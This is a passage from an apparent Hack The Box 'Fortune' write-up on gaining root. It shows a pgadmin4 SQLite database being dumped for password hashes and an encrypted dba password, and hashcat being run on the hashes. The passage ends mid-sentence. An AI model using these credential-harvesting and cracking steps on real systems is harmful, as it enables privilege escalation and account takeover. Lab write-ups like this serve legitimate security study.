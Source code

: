 ![](htb_fortune_ssh.png)## Root Flag

Looking around as charlie we find a mbox file inside his home folder with the following content:

```
Hi Charlie,

Thanks for setting-up pgadmin4 for me. Seems to work great so far.
BTW: I set the dba password to the same as root. I hope you don't mind.

Cheers,

Bob
```

So we search the filesystem for pgadmin4, find it under "/var/appsrv/pgadmin4" and notice that we have read access to the database file "pgadmin4.db"! We open the file in `sqlite3` and dump the contents:

```
sqlite3 pgadmin4.db
.dump
...
INSERT INTO user VALUES(1,'charlie@fortune.htb','$pbkdf2-sha512$25000$3hvjXAshJKQUYgxhbA0BYA$iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe95KqiAyf37.v1lmCunWVkmfr93Wi6.W.UzaQ',1,NULL);
INSERT INTO user VALUES(2,'bob@fortune.htb','$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg',1,NULL);
...
INSERT INTO server VALUES(1,2,2,'fortune','localhost',5432,'postgres','dba',X'75745555306a6b616d435a446d71464c4f724175506a46784c307a70387a577a495365354d463047592f6c3853696c726d753363617172746a61566a4c516c76464645674553477a',NULL,'prefer',NULL,NULL,'','',NULL,'<STORAGE_DIR>/.postgresql/postgresql.crt','<STORAGE_DIR>/.postgresql/postgresql.key',NULL,NULL,0,NULL,NULL,NULL,0,NULL,'22',NULL,0,NULL,0,NULL)
COMMIT;
.exit
```

We got 3 means of authentication here "dba", "charlie@fortune.htb" and "bob@fortune.htb". In the background I immediately start to try crack the hashes of bob and charlie, but ultimately didn’t have too much success with it. Just a quick note on cracking: John seems to detect these in the wrong format "HMAC-SHA256" while they are actually "pbkdf2-sha512" hashes. To start the cracking process I used `hashcat64.exe -m 12100 hashes.txt` with the following adjusted hash file:

hashes.txt:

```
sha512:25000:z9nbm1Oq9Z5TytkbQ8h5Dw:Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg3
sha512:25000:3hvjXAshJKQUYgxhbA0BYA:iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe95KqiAyf37.v1lmCunWVkmfr93Wi6.W.UzaQ
```

In the end it didn’t give any results though. Enumerating the box a lot I did not find anything else that helped me so I went back to the dba password. This doesn’t look like a hash and after some research it turns out that it is actually an encrypted form of the dba password. We can learn that by looking at "/usr/local/pgadmin4/pgadmin4-3.4/web/pgadmin/utils/driver/psycopg2/connection.py", where it has the lines:

